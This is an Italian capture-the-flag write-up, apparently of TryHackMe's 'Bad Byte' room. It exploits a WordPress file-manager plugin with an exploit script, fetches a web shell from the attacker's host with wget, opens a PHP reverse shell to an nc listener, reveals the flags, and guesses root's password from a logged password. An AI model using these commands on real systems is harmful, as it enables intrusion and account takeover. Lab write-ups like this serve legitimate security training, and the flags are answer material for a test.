 ```
python -m http.server 80 
```

```
python 51224.py "http://127.0.0.1:8080/" "wget http://10.21.9.220/mini.php"
```

```
python 51224.py "http://127.0.0.1:8080/" "pwd"                             
/usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files
```

```
http://127.0.0.1:8080/wp-content/plugins/wp-file-manager/lib/files/mini.php
```

```
https://www.revshells.com/?source=post_page-----94dc930353c2--------------------------------
```
Creo revshell php  pentestmonkey e inserisco in shell.php di mini shell
```
nc -lvnp 2234
```

```
$ cd cth
$ ls
user.txt
$ less user.txt
THM{227906201d17d9c45aa93d0122ea1af7}
```

==Privilege Escalation==

Le password sono un concetto piuttosto semplice e possono essere un modo efficace per proteggere informazioni sensibili. Garantire che solo le persone che conoscono il "codice segreto" abbiano accesso a una determinata risorsa aiuta ad alzare l'asticella per gli aggressori che tentano di ottenere un accesso illegittimo. Le password possono sicuramente essere perse o rubate, soprattutto quando sono scarsamente protette. A volte l'utente può riutilizzare la stessa password o modificarla leggermente dopo una violazione dei dati. Ad esempio, può cambiarla da "Goodpassword2019" a "Goodpassword2020" o da "Autumn20!" a "Spring20!". Se l'aggressore mette le mani sul vecchio dump del database dell'azienda e trova uno schema nelle password utilizzate, l'aggressore può indovinare la password corretta. In questa attività: scopri che l'utente ha lasciato la password da qualche parte accidentalmente. La gestione ora richiede che le sessioni SSH vengano registrate. Indovina la nuova password dell'utente. Ottieni il flag di root.

```
cat /var/log/bash.log
```

```
Script started on 2021-03-23 21:05:06+0000
cth@badbyte:~$ whoami
cth
cth@badbyte:~$ date
Tue 23 Mar 21:05:14 UTC 2021
cth@badbyte:~$ suod su

Command 'suod' not found, did you mean:

  command 'sudo' from deb sudo
  command 'sudo' from deb sudo-ldap

Try: sudo apt install <deb name>

cth@badbyte:~$ G00dP@$sw0rd2020
G00dP@: command not found
cth@badbyte:~$ passwd
Changing password for cth.
(current) UNIX password: 
```